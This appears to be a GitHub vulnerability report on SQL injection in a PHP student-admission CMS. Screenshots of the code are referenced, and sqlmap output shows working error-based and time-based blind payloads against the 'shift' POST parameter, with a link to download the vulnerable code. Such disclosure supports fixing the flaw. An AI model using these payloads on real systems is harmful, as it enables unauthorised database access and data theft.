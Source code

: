 # Student-Admission CMS Sqlinjection

### Sqlinjection Code
![image](https://user-images.githubusercontent.com/72059221/182750831-21ba3a4b-d99f-484b-813f-0d175d044ce4.png)
![image](https://user-images.githubusercontent.com/72059221/182750900-d34a0889-3f8b-4a3b-85a7-fddb16385258.png)


![image](https://user-images.githubusercontent.com/72059221/182751071-f90c74c8-2632-4838-ac0d-a7cf4d0ebac0.png)

#### No Check Shift  

![image](https://user-images.githubusercontent.com/72059221/182751180-d03a9653-d4b1-4dfd-b0a9-d5535f98f6bf.png)


#### Sqlmap Attack
![image](https://user-images.githubusercontent.com/72059221/182750935-56fa5112-fdcd-4bb5-ba7e-762cffaaf506.png)

```
POST parameter 'shift' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1581 HTTP(s) requests:
---
Parameter: shift (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND GTID_SUBSET(CONCAT(0x717a766b71,(SELECT (ELT(3656=3656,1))),0x7162766a71),3656)&gender=female&blgroup=abc&division=1&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND (SELECT 2934 FROM (SELECT(SLEEP(5)))GVhT)&gender=female&blgroup=abc&division=1&submit=Submit
---
[09:45:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.6
```

#### Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html

